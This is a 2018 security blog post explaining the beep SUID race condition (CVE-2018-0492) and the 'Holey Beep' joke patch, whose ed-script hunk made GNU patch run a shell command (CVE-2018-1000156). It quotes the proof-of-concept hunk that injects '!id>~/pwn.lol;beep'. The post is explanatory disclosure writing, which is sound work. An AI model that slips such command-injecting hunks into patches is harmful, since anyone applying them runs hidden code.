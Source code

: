 ```yaml
---
author: isotopp
date: "2018-04-06T00:00:00Z"
feature-img: assets/img/background/schloss.jpg
status: publish
tags:
- erklaerbaer
- security
- lang_en
title: beep, patch and ed
---
```

So a few days ago, somebody found an exploit in beep - now
[CVE-2018-0492](https://nvd.nist.gov/vuln/detail/CVE-2018-0492).

beep is a program that is part of Debian (and Ubuntu) to have the PC speaker
multiple times, at different frequencies, with different pauses and beep
lengths. That works just fine. It's also SUID root. There is zero code in it
that deals with the fact that it may run privileged. 

The author confidently writes:

> Some users will encounter a situation where beep dies with a complaint
> from ioctl(). The reason for this, as Peter Tirsek was nice enough to
> point out to me, stems from how the kernel handles beep's attempt to poke
> at (for non-programmers: ioctl is a sort of catch-all function that lets
> you poke at things that have no other predefined poking-at mechanism) the
> tty, which is how it beeps. The short story is, the kernel checks that
> either:
>
> - you are the superuser
> - you own the current tty
>
> What this means is that root can always make beep work (to the best of my
> knowledge!), and that any local user can make beep work, BUT a non-root
> remote user cannot use beep in it's natural state. 
> 
> What's worse, an xterm, or other x-session counts, as far as the kernel is
> concerned, as 'remote', so beep won't work from a non-privileged xterm
> either. I had originally chalked this up to a bug, but there's actually
> nothing I can do about it, and it really is a Good Thing that the kernel
> does things this way.
>
> There is also a solution. By default beep is not installed with the suid
> bit set, because that would just be zany. On the other hand, if you do
> make it suid root, all your problems with beep bailing on ioctl calls will
> magically vanish, which is pleasant, and the only reason not to is that
> any suid program is a potential security hole.
>
> Conveniently, beep is very short, so auditing it is pretty
> straightforward. Decide for yourself, of course, but it looks safe to me -
> there's only one buffer and fgets doesn't let it overflow, there's only
> one file opening, and while there is a potential race condition there,
> it's with /dev/console. If someone can exploit this race by replacing
> /dev/console, you've got bigger problems. :)

So here is how you race this: [beepbop](https://gist.github.com/fkt/5f8f9560ef54e11ff7df8bec09dc8f9a) 

Which is bad, because Ubuntu and Debian both install beep SUID root, by
default. You can check with "dpkg-reconfigure -plow beep".

![](/uploads/2018/04/dpkg-reconfigure-beep.png)

Debian installs beep SUID root by default, "dpkg-reconfigure -plow
beep"

Somebody also created a fun website for the beep problem, complete with
logo and name: [Holey Beep](https://holeybeep.ninja/).

![](/uploads/2018/04/holey-beep.png)

[Holey Beep](https://holeybeep.ninja/): The site, which is done very tongue
in cheek, also contained a [patch](https://holeybeep.ninja/beep.patch) for
the problem, advertising it like this:

![](/uploads/2018/04/patch-exploit.png)

So why would your computer beep when it applies a patch? 
That's another fun thing. The patch contains this hunk:

```diff
--- /dev/null	2018-13-37 13:37:37.000000000 +0100
+++ b/beep.c	2018-13-37 13:38:38.000000000 +0100
1337a
1,112d
!id>~/pwn.lol;beep # 13-21 12:53:21.000000000 +0100
.
```

and that looks very much like an ed-script. In fact, until recently that is
exactly what patch did: popen a copy of ed and feed it. The line "id \>
~/pwn.lol; beep" will hence be run, create a file pwn.lol in $HOME with the
current user id, and then execute beep. That's the promised beep you hear.

Of course code execution by a thing you expect to handle data is a problem,
and that is now
[CVE-2018-1000156](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1000156).

It's fixed by writing the ed code to a tmp file while filtering the commands
fed to ed, and then feeding the filtered input into ed.
